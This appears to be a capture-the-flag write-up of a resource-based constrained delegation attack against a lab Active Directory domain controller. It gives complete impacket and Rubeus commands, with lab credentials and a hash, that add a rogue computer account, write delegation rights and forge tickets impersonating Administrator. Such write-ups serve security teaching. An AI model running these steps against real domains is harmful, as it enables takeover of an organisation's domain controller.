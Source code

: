 This a RBCD Attack, for more info please check [this ](../knowledge-base/windows-and-ad/attacks/role-based-constrained-delegation-attack.md)article.

### Requirements:

Once we are on the box, I loaded up SharpHound. We have GenericAll over the DC through our group and we also have `SeMachineAccountPrivilege Add workstations to domain Enabled`

```
C:\Users\support\Downloads>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

### Launching the attack:

We will now abuse our SeMachineAccountPrivilege to add a new computer in the domain. We will use impacket-addcomputer for it:

```bash
python3 /usr/share/doc/python3-impacket/examples/addcomputer.py -computer-name 'ATTACKCOMPUTER$' -computer-pass 'AttackPassword123' -dc-ip 10.10.11.174 'support.htb/support:Ironside47pleasure40Watchful'
```

Now, let's use our GenericAll rights to write an attribute to the DC to include a DACL where we can delegate from our ATTACKCOMPUTER$ to the DC:

```bash
python3 /usr/share/doc/python3-impacket/examples/rbcd.py -action write -delegate-from 'ATTACKCOMPUTER$' -delegate-to 'DC$' -dc-ip 10.10.11.174 'support.htb/support:Ironside47pleasure40Watchful'
```

Now let's go on the target host where we transferred Rubeus and check our hash:

```
.\Rubeus.exe hash /password:AttackPassword123 /user:ATTACKCOMPUTER$ /domain:support.htb
```

Use this hash now to request a TGT ticket

```powershell
.\Rubeus.exe asktgt /user:ATTACKCOMPUTER$ /rc4:753F0A7DFD2413A969F14855C6E5832F /domain:support.htb /dc:dc.support.htb /nowrap
```

Now use this TGT to request a TGS for CIFS.

```
.\Rubeus.exe s4u /user:ATTACKCOMPUTER$ /rc4:753F0A7DFD2413A969F14855C6E5832F /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /dc:dc.support.htb /ptt
```
